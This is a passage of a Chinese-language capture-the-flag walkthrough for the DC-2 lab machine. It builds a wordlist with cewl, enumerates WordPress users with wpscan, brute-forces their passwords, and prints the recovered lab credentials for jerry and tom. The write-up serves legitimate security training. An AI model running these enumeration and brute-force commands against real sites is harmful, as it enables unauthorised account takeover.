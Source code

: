 ``-u 网站地址``

``-e 语言，可选php，asp等，*表示全部``

``-x 表示过滤的状态码，扫描出来后不显示该状态``

扫出来一个登入界面，访问``http://dc-2/wp-login.php``

![image-20221004205530568](https://luminary74-1312852271.cos.ap-beijing.myqcloud.com/202210042055613.png)

登录到后台，接下来爆破账号密码

### 2.Web端渗透

#### 字典生成

flag1 提示到，一般的字典派不上用场，需要用到cewl工具爬取目标网站信息，生成相对应字典

```
cewl http://dc-2/ -w /home/kali dict.txt
```

![image-20221004210117584](https://luminary74-1312852271.cos.ap-beijing.myqcloud.com/202210042101652.png)

#### 用户名枚举爆破

使用``WPScan``工具，一款针对WordPress CMS的工具

```
wpscan --url dc-2 -e u
```

![image-20221004210516880](../../AppData/Roaming/Typora/typora-user-images/image-20221004210516880.png)

扫描出三个用户名，创建一个``username.txt``文件

```
admin
jerry
tom
```

#### 密码枚举爆破

使用工具``wpscan``，用户名字典选择``username``，字典选择``cewl``生成的字典``dict.txt``

```
wpscan --url dc-2 -U /home/kali/Desktop/username.txt -P /home/kali/Desktop/dict.txt
```

![image-20221004211253931](https://luminary74-1312852271.cos.ap-beijing.myqcloud.com/202210042112044.png)

爆破出jerry和tom密码

```
 | Username: jerry, Password: adipiscing
 | Username: tom, Password: parturient
```
